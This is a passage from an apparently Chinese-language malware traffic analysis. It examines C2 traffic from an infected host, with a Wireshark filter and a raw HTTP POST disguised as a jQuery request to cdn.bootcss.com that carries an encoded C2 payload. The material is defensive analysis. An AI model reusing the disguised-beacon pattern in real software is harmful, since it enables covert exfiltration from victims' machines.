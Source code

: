 该 get 请求的响应中有 恶意流量特征（"编码了的 C2 控制信息"），截图是这样的：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190222180425-3bddb3f6-3689-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190222180425-3bddb3f6-3689-1.png)

#### post 流量

其中 post 流量为 victim 向主控端发送数据的流量。  
`ip.addr == 10.211.55.5 and http contains POST`

我将其中一次 post 请求与响应，保存到了附件，以供参考。  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20190222180452-4bfd78d4-3689-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190222180452-4bfd78d4-3689-1.png)

Post 请求：

```
POST /jquery-3.3.2.min.js?__cfduid=CxuRMTktogA6 HTTP/1.1
Host: cdn.bootcss.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://cdn.bootcss.com/
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko
Content-Length: 1995
Connection: Keep-Alive
Cache-Control: no-cache

（编码了的C2控制信息）
```

Post 请求 中有 恶意流量特征（ “编码了的 C2 控制信息 “），一条完整的信息是这样的：

```
WHAJWlhwDIpYcAlYWHAM9FhwCUsDI3ApLBVkeggCZjk9A3oHUUAAalIjcCksFWRTaHk9UCsdeil2FXE_UUQAaWxAAzkrAnopdhVxP1FEOGhRRD1iUgdgNDEeYC52FXE_UUQ4aFFEMGxSE3ooKwMnPyAVAG9oRABvaUYDLTEeZTU_H2d0PQhsU21APVNtRjFQKxV7LDETbCl2FXE_UUQwbFFGOW5SHHo7KwMnPyAVAG5hRgBsakADNisdJz8gFQBuYUYAbGpIAykuE2E1KwQnPyAVAGxoRABtakgDKS4TYTUrBCc_IBUAbGhEAGJtQgMpLhNhNSsEJz8gFQBsaEQAY2tGAykuE2E1KwQnPyAVAGxoRABjYEADKS4TYTUrBCc_IBUAbGhEAGtoQTtQKwZqMjcDfXQ9CGxTbkA9U2lAP2pSJ1weHjhmKSxebCI9eTBiaHk4a2BEAykuE2E1KwQnPyAVAGxoRABrakk7UCsAZjU0A390PQhsU25APVNpRTFqUgN_OTAfei52FXE_UUY5blFBP21uen07KxthNSsEJz8gFQBsaEQAa25IPVMgRj1TDzlHbQQcYDRRQQMpLhNhNSsEJz8gFQBsaEQAa29HP1A8B2R0PQhsU2FIOVNpRzFiUQg_blEnQBRvLGUzNnk4UD0IeTY3AmwodhVxP1FBPm5oeThib0YAIm5EAA0RPj4GNBlnU2l6XgwLI2oyPRR8Nj0CJz8gFQBsaEQAaGhAOVAeH3suMSNaFg4gRz45FWQ1Nl5sIj15P2pseTtrbEQDaW5ATT8rG301KDxgLj1GPXQ9CGxTaUg-bFFCO2tqeXFsbHleExZHVTYxHgBrUhNmMj0CbDQ7FSc_IBUAbGhEAGhqQz9QOx9hPyoVZzk9XmwiPXk7aGtGAGhqSTtQKAJlBSwfZjYrL3o_KgZgOT1ebCI9eT9qbHk7aWhAAzk3GGwoPR5qP3YVcT9RQjtjank7aWpIAyoqHFYuNx9lKXYVcT9RQjpqaHk7aWBEAyo7EXp0PQhsU25APVNqQzBsUhRlNjAfei52FXE_UUY5blFCPGpgelgLCAJmLj0TfXQ9CGxTbkA9U2pGO2pSAHs2BxNqdD0IbFNqQzFuUUI_aGB5cWxseV4TFkdVNjEeAGtSA2w5OhlzKSoGJz8gFQBsaEQAaG9HO1A8HGUyNwN9dD0IbFNuQD1Ta0Y8bFIjbDsqE2ETNhRsIj0CJz8gFQBsaEQAaW9CMVArBmoyNwN9dD0IbFNuQD1Ta0g6bFIDfzkwH3oudhVxP1FGOW5RQzFtanpkKTwEanQ9CGxTbkA9U2tCP2pSEWUzLwN6LHYVcT9RRDxoaHk9bGxAACJgRgANET4-BjQZZ1Npemo1NhhmKSxebCI9eTxrbnk9bGxIACJuRAANET4-BjQZZ1NpekEzKANNOz0dZjR2FXE_UUY5blFDP2luenwpIQNtMzkXJz8gFQBpbkM_U21EMW5SKmEvHB9nPR4RZz0BBSc_IBUAbGhEAGlsQT9QDxl7PysYaCgzXmwiPXk7aGlCAGltQjFTIEY9Uw85R20EHGA0UUEDOTUUJz8gFQBrYEc_U2tAOVMgRj1TDzlHbQQcYDRRQQM5Nx5hNSsEJz8gFQBvaUYAa2hJO1MgRj1TDzlHbQQcYDRRQQNpbkB9KDkJJz8gFQBobkg5U21EPW5SI2Y8LD1uKBQZfT92FXE_UUU9bmx5O2NoQAMSMQB6DioRcHQ9CGxTa0U_blFFPmJgeXFibnleExZHVTYxHgBrUhR8NygTaCp2FXE_UUM8aGB5P2hoQAAibkQADRE-PgY0GWdTaXpqNTYYZiksXmwiPXk8a255PWlsRAAibkQADRE-PgY0GWdTaXo4bQcJbCl2FXE_UUI7a2p5P2trRgAiYEYADRE-PgY0GWdTaXpFMy4VXCo8EX0_a0Y5dD0IbFNtRD1uUUQ7bGh6CVpgqEVpOMq-aezpBykqzR3Y2qyQHet-wfs
```

